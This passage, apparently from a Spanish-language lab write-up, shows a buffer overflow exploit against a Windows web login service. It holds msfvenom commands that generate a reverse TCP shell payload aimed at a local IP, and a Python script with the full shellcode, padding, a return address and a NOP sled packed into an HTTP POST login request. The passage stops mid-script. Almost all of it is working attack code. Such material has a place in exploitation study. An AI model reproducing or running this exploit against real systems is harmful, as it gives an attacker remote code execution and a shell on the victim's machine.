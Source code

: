 Dirección: ```0x10090c83```

----

## Generar shellcode

```
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.107 lport=4444 EXITFUNC=thread -b "\x00\0a\0d\x25\x26\x2b\x3d" -f c
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c
```

## Accediendo al sistema

```
#!/usr/bin/python

import socket, time, sys

# \x00\x0a\x0d\x25\x26\x2b\x3d

shellcode = ("\xb8\x0e\xad\x46\xbb\xda\xdb\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x52\x31\x43\x12\x83\xeb\xfc\x03\x4d\xa3\xa4\x4e\xad\x53\xaa"
"\xb1\x4d\xa4\xcb\x38\xa8\x95\xcb\x5f\xb9\x86\xfb\x14\xef\x2a"
"\x77\x78\x1b\xb8\xf5\x55\x2c\x09\xb3\x83\x03\x8a\xe8\xf0\x02"
"\x08\xf3\x24\xe4\x31\x3c\x39\xe5\x76\x21\xb0\xb7\x2f\x2d\x67"
"\x27\x5b\x7b\xb4\xcc\x17\x6d\xbc\x31\xef\x8c\xed\xe4\x7b\xd7"
"\x2d\x07\xaf\x63\x64\x1f\xac\x4e\x3e\x94\x06\x24\xc1\x7c\x57"
"\xc5\x6e\x41\x57\x34\x6e\x86\x50\xa7\x05\xfe\xa2\x5a\x1e\xc5"
"\xd9\x80\xab\xdd\x7a\x42\x0b\x39\x7a\x87\xca\xca\x70\x6c\x98"
"\x94\x94\x73\x4d\xaf\xa1\xf8\x70\x7f\x20\xba\x56\x5b\x68\x18"
"\xf6\xfa\xd4\xcf\x07\x1c\xb7\xb0\xad\x57\x5a\xa4\xdf\x3a\x33"
"\x09\xd2\xc4\xc3\x05\x65\xb7\xf1\x8a\xdd\x5f\xba\x43\xf8\x98"
"\xbd\x79\xbc\x36\x40\x82\xbd\x1f\x87\xd6\xed\x37\x2e\x57\x66"
"\xc7\xcf\x82\x29\x97\x7f\x7d\x8a\x47\xc0\x2d\x62\x8d\xcf\x12"
"\x92\xae\x05\x3b\x39\x55\xce\x84\x16\x55\x65\x6d\x65\x55\x68"
"\x31\xe0\xb3\xe0\xd9\xa4\x6c\x9d\x40\xed\xe6\x3c\x8c\x3b\x83"
"\x7f\x06\xc8\x74\x31\xef\xa5\x66\xa6\x1f\xf0\xd4\x61\x1f\x2e"
"\x70\xed\xb2\xb5\x80\x78\xaf\x61\xd7\x2d\x01\x78\xbd\xc3\x38"
"\xd2\xa3\x19\xdc\x1d\x67\xc6\x1d\xa3\x66\x8b\x1a\x87\x78\x55"
"\xa2\x83\x2c\x09\xf5\x5d\x9a\xef\xaf\x2f\x74\xa6\x1c\xe6\x10"
"\x3f\x6f\x39\x66\x40\xba\xcf\x86\xf1\x13\x96\xb9\x3e\xf4\x1e"
"\xc2\x22\x64\xe0\x19\xe7\x84\x03\x8b\x12\x2d\x9a\x5e\x9f\x30"
"\x1d\xb5\xdc\x4c\x9e\x3f\x9d\xaa\xbe\x4a\x98\xf7\x78\xa7\xd0"
"\x68\xed\xc7\x47\x88\x24")

try:
	print "[+] Sending buffer"

	size = "A"*780 + "\x83\x0c\x09\x10" + "\x90"*10 + shellcode

	fuzz = "username=" + size + "&password=A"

	buff = "POST /login HTTP/1.1\r\n"
	buff += "Host: 192.168.0.105\r\n"
	buff += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
	buff += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buff += "Accept-Language: en-US,en;q=0.5\r\n"
	buff += "Accept-Encoding: gzip, deflate\r\n"
	buff += "Referer: http://192.168.0.105/login\r\n"
	buff += "Content-Type: application/x-www-form-urlencoded\r\n"
	buff += "Content-Length: " + str(len(fuzz)) + "\r\n"
	buff += "\r\n"
```